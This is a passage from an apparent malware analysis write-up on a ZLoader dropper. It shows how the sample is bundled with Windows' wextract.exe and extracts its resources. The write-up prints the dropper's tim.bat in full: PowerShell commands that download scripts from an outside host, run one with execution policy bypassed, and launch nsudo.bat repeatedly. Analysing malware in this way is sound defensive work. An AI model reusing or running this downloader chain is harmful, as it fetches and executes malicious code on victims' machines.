     │   string.txt
    │   version.txt
    │
    ├───DIALOG
    │       2001
    │       2002
    │       2003
    │       2004
    │       2005
    │       2006
    │
    └───RCDATA
            CABINET
            EXTRACTOPT
            FILESIZES
            FINISHMSG
            LICENSE
            PACKINSTSPACE
            REBOOT
            SHOWWINDOW
            TITLE
            UPROMPT
{% endhighlight %}

The differences are where malicious content is embedded, starting from RCDATA.

A more elegant way to explore this is with Resource Hacker:
![zloader_resourcehacker]({{urlimg}}/assets/img/zloader_resourcehacker.png)

We got the answer that the malware is actually bundled together with the legitimate C:\Windows\System32\wextract.exe Windows binary.

The diff of the components can be also extracted, and in the RCDATA there are some content of interest. RUNPROGRAM will execute:
{% highlight ruby %}cmd /c tim.bat{% endhighlight %}

![zloader_RUNPROGRAM]({{urlimg}}/assets/img/zloader_RUNPROGRAM.png)

Yet again, with simply 7z you can extract the content of the file:
{% highlight ruby %}extract\.rsrc\2057\RCDATA\CABINET{% endhighlight %}

Which is resulting in tim.bat, which has the following content:
{% highlight ruby %}
cd "%USERPROFILE%\AppData\Roaming
powershell Invoke-WebRequest https://pornofilmspremium.com/123.ps1 -OutFile 123.ps1
PowerShell -NoProfile -ExecutionPolicy Bypass -Command "& './123.ps1'"

timeout 150
powershell Invoke-WebRequest https://pornofilmspremium.com/nsudo.bat -OutFile nsudo.bat

cmd /c nsudo.bat
timeout 10
cmd /c nsudo.bat
timeout 10
cmd /c nsudo.bat
timeout 10 
cmd /c nsudo.bat
timeout 10

... omitted 15 repeated cmd+timeout commands ...
{% endhighlight %}
